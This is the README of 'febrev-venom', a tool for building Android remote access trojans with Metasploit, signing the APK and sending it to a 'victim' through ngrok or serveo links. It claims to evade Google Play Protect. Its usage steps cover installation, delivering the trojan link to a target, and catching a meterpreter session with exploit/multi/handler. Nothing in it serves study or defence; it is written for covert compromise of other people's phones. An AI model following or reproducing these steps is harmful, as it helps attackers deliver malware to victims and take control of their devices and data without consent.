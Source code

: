# febrev-venom
FEBREV venom is a tool to create android RATs through metasploit , signs the RAT apk ,  and send it to the victim via a link url over the INTERNET
CAN BYPASS GOOGLE PLAY PROTECT.............


*must run as root
*must run in debian-based linux distro like kali
#################################################################################################################
 USAGE:
   
   **come into the febrev-venom directory 
  
   chmod +x * 
   
   python3 installer.py
   
   ** now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    **come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 **use the ngrok link + /<your_apk.apk> or serveo.net link(the best) + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
 
 
 happy hacking.....!!!!!
 
 ################################################################################################################
   
